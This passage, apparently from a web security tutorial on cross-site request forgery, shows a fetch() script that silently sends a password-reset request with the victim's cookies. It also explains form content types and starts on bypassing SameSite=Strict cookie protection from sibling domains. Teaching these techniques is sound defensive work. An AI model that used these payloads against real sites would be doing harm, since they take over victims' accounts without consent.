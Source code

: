 {% code title="Using fetch() (background)" %}
```html
<script>
    fetch('https://example.com/reset_password', {
        method: 'POST',
        mode: 'no-cors',  // Prevent preflight request or errors
        credentials: 'include',  // Include cookies if allowed
        headers: {  // Parse body as form submission
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: 'password=hacked',
    })
</script>
```
{% endcode %}

Here both methods can achieve the same requests, but notice that one is top-level, while the other is not. The `<form>` method will work when the SameSite attribute is missing in Chromium-based browsers for the first 2 minutes of the cookie being set, as well as bypassing [#third-party-cookie-protections](cross-site-request-forgery-csrf.md#third-party-cookie-protections "mention") automatically. The `fetch()` method is more hidden but has more preconditions.&#x20;

With the `fetch()` method you can completely control the body data while using a `<form>` this is done for you depending on the `Content-Type` header (`enctype=` in HTML). \
This type can be changed to one of three values, which all have different formats. The `text/plain` type may be interesting if a server expects the `application/json` type which is normally impossible, but also accepts this as an alternative. Here are all three:

<pre class="language-http"><code class="lang-http">Content-Type: application/x-www-form-urlencoded
<strong>name1=value1&#x26;name2=value2
</strong>
Content-Type: multipart/form-data
<strong>------WebKitFormBoundaryS9COBpBA97fjAsLJ
</strong><strong>Content-Disposition: form-data; name="name1"
</strong><strong>
</strong><strong>value1
</strong><strong>------WebKitFormBoundaryS9COBpBA97fjAsLJ
</strong><strong>Content-Disposition: form-data; name="name2"
</strong><strong>
</strong><strong>value2
</strong><strong>------WebKitFormBoundaryS9COBpBA97fjAsLJ--
</strong>
Content-Type: text/plain
<strong>name1=value1
</strong><strong>name2=value2
</strong></code></pre>

#### `SameSite=`<mark style="color:red;">`Strict`</mark>: bypassing using client-side redirect

As mentioned earlier, the SameSite protection only prevents cross-_site_ requests. If you can create a fake form or have javascript execution on a **sibling domain or different port**, this bypasses the restriction.&#x20;
